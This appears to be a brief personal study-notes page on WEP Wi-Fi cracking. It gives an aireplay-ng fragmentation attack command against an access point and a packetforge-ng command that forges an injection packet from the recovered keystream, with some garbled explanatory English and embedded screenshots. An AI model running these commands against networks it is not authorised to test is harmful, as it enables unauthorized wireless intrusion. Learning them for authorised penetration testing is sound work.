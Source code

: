 # Fragmentation Attack

**Which attack number generator that used to generate random number to encryption**

```bash
aireplay-ng -5 -b BSSID_AP -h wlan_Bssid wlan0

# -5 -> refer to fragmentation attack
```

> need one packet to make this attack-b

![image.png](<../../../.gitbook/assets/image (2).png>)

***

### Packet injection (Forging)

```bash
packetforge-ng -0 -a D8:29:18:0A:08:91 -h 7c:3d:09:00:07:47 -k 255.255.255.255 -l 255.255.255.255 fileFromFregmentAttack -w any_name
```

<figure><img src="../../../.gitbook/assets/image 1 (1) (1).png" alt=""><figcaption></figcaption></figure>
